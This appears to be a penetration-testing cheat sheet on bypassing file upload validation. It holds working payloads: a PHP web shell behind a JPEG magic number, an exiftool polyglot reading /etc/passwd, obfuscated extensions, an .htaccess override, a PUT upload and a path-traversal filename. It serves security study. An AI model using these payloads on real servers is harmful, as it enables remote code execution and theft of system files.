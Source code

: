 # File upload

{% hint style="warning" %}
Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text
{% endhint %}

## <mark style="color:yellow;">Flawed validation of FU</mark>

### <mark style="color:yellow;">**Content-Type**</mark>

<details>

<summary>multipart/form-data</summary>

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

</details>

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### <mark style="color:yellow;">Blacklisted extensions</mark>

* Change extensions

```
.php
.php3
.php4
.php5
.phtml
.phar
```

* Obfuscating file extensions

```
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### <mark style="color:yellow;">File content validation</mark>

More secure servers try to verify that the contents of the file actually match what is expected

#### (1) Magic number: certain file types may always contain a specific sequence of bytes in their header or footer

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

***

**(2) Polyglot (on exiftool)**: verify certain intrinsic properties of an image, such as its dimensions.

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass rescritions) but when you open the image it's executed as php script.

## <mark style="color:yellow;">Overriding server configuration</mark>

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers -> `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## <mark style="color:yellow;">PUT method</mark>

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## <mark style="color:yellow;">**FU + PT**</mark>

Defense: Servers block script execution in the file upload folder. Web servers use the filename field in `multipart/form-data` requests to determine the file's name and location. -> Change filename field combining path traversal

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

## <mark style="color:yellow;">FU without RCE</mark>

If you can upload HTML files or SVG images, you can use tags to create stored XSS payloads. If the server parses XML-based files like `.doc` or `.xls`, it could be a vector for XXE injection attacks.

## <mark style="color:yellow;">FU + Race Conditions</mark>

Some websites upload files to the main filesystem and remove them if they fail validation. This is common in sites using anti-virus software to check for malware. During the short time the file exists on the server, an attacker could potentially execute it.

* Race conditions
* Difficult to detect

### <mark style="color:yellow;">Race conditions in URL-based file uploads</mark>

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes

